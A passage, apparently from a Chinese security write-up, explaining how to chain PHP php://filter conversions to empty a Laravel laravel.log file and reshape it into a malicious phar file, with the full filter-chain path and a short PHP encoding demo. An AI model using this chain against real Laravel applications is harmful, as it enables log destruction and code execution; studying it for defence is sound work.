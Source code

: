 然后使用 `convert.quoted-printable-encode` 打印所有不可见的字符

[![](https://p5.ssl.qhimg.com/t01fd81184a2fcdb5a4.png)](https://p5.ssl.qhimg.com/t01fd81184a2fcdb5a4.png)

再使用 `convert.iconv.utf-16be.utf-8`

[![](https://p1.ssl.qhimg.com/t019d20527bb490971f.png)](https://p1.ssl.qhimg.com/t019d20527bb490971f.png)

这三部操作显而易见的将 log 文件内的字符变成了非 base64 字符, 这个时候再使用 `convert.base64-decode` 就可以成功清楚 log 文件

[![](https://p3.ssl.qhimg.com/t01254aa785a8036afb.png)](https://p3.ssl.qhimg.com/t01254aa785a8036afb.png)

那么我们把上述步骤合并起来就达成了这两步的目的

```
php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log

```

实现了一步清空 log 文件

[![](https://p0.ssl.qhimg.com/t016e292c9b85cdc187.png)](https://p0.ssl.qhimg.com/t016e292c9b85cdc187.png)

**写入符合规范的phar文件**

我们可以通过 `file_get_contents` 去触发日志的记录, 也可以本地调试报错后在相关的文件夹找到 log 文件的记录

[![](https://p4.ssl.qhimg.com/t01ace629413c0ccebd.png)](https://p4.ssl.qhimg.com/t01ace629413c0ccebd.png)

通过观察, 可以发现 log 文件大致的格式

```
[时间]错误原因:错误发生的完整路径:错误发生的完整路径
[跟踪]#0...+部分payload+...
```

会发现我们 file_get_contents 的完整路径会出现两次

[![](https://p5.ssl.qhimg.com/t01c55053a1d6401fad.png)](https://p5.ssl.qhimg.com/t01c55053a1d6401fad.png)

最终需要让 log 文件变成恶意 phar 文件, 所以还得继续对 log 文件进行操作

原文作者给出的方式是 `convert.iconv.utf-16le.utf-8`

```
&lt;?php
    $fp = fopen('php://output', 'w');
    stream_filter_append($fp, 'convert.iconv.utf-16le.utf-8');
    fwrite($fp, "R\0i\0c\0k\0y\0 \0u\0p\0l\0o\0a\0d\0 \0a\0 \0f\0i\0l\0e\0.\0\n\0");
    fclose($fp);
    /* Result: Ricky upload a file. */
?&gt;
```
